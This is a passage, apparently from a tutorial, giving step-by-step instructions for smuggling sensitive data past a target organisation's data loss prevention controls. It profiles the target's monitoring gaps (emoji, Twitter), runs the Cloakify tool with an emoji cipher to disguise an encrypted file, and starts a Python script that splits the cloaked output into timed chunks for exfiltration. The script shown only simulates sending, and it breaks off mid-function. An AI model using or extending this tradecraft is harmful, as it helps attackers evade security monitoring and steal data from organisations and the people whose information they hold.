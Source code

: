 2. **Analyze your target environment's DLP**:

```bash
# Check for blocked file types or monitored keywords
cat > dlp_analysis.txt << 'EOF'
# DLP Analysis:
# - File transfers monitored
# - Encrypted files blocked
# - Base64 encoding detected
# - Standard data transfer channels monitored
# - No monitoring of emoji usage
# - Twitter access allowed
EOF
```

3. **Select an appropriate cipher and cloakify the data**:

```bash
# For example, using emojis might bypass DLP
cd Cloakify
python3 cloakify.py ../sensitive_data.enc ciphers/emoji.txt ../exfiltration_ready.txt
```

4. **Create a script to automate exfiltration**:

```bash
cat > exfil_chunks.py << 'EOF'
#!/usr/bin/env python3
import sys
import time
import os

def chunk_file(filename, chunk_size=10):
    """Split a file into chunks of specified number of lines."""
    chunks = []
    with open(filename, 'r') as f:
        current_chunk = []
        for line in f:
            current_chunk.append(line.rstrip())
            if len(current_chunk) >= chunk_size:
                chunks.append(current_chunk)
                current_chunk = []
        if current_chunk:  # Don't forget the last chunk if it's smaller
            chunks.append(current_chunk)
    return chunks

def simulate_exfiltration(chunks):
    """Simulates the exfiltration of chunks, printing what would be sent."""
    for i, chunk in enumerate(chunks):
        print(f"Sending chunk {i+1} of {len(chunks)} ({len(chunk)} lines)")
        for line in chunk:
            print(f"  {line}")
        print(f"Waiting for next chunk...")
        time.sleep(1)  # In real exfiltration, this would be much longer

def main():
    if len(sys.argv) < 2:
        print(f"Usage: {sys.argv[0]} <cloaked_file> [chunk_size]")
        sys.exit(1)
    
    cloaked_file = sys.argv[1]
    chunk_size = int(sys.argv[2]) if len(sys.argv) > 2 else 10
    
    if not os.path.exists(cloaked_file):
        print(f"File not found: {cloaked_file}")
        sys.exit(1)
    
```